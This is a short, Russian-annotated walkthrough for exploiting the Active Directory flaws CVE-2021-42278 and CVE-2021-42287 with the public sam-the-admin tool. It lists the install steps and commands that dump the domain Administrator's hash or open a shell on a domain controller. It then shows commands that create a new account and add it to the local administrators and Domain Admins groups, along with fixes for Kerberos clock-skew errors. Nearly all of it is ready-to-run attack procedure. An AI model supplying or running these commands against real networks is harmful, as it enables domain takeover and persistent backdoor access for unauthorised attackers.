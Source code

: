 Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user 

    # скачиваем на kali linux https://github.com/WazeHell/sam-the-admin
    # разархивируем и переходим в папку
    $ cd sam-the-admin
    # устанавливаем зависимости
    $ pip3 install -r requirements.txt
    # запускаем експлойт
    # дампаем хеш   
    $ python3 sam_the_admin.py "domain.local/username:Password123" -dc-ip 10.10.10.10 -dc-host DC01 -dump -just-dc-user domain.local/Administrator
    # или получаем shell, потом добавляем локал админа
    $ python3 sam_the_admin.py "domain.local/UserName:Password123" -dc-ip 10.10.10.10 -dc-host DC01 -shell
    # C:\windows\
    system32\> net user /add privetkakdela Password321
    system32\> net localgroup administrators privetkakdela /add
    system32\> net group "domain admins" privetkakdela /add

### Known issues
- it will not work outside kali , i will update it later on :)
- Если получаем ошибку {
[-] Error getting TGT, Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[*] Get TGT wrong!
}
# открываем файл в редакторе
$ sudo nano /etc/systemd/timesyncd.conf  
# раскоментм строчку ntp и вписываем туда айпишник дк
[Time]
NTP=dom.contr.ip.ad
FallbackNTP=ntp.ubuntu.com pool.ntp.org
# ctrl+o -> enter -> ctrl+x
$ sudo systemctl restart systemd-timesyncd
# если ошибка
$ sudo apt update
$ sudo apt install ntpdate
$ sudo ntpdate dom.contr.ip.ad
# теперь ошибки не будет

#### Check out 
- [CVE-2021-42287/CVE-2021-42278 Weaponisation ](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [sAMAccountName spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
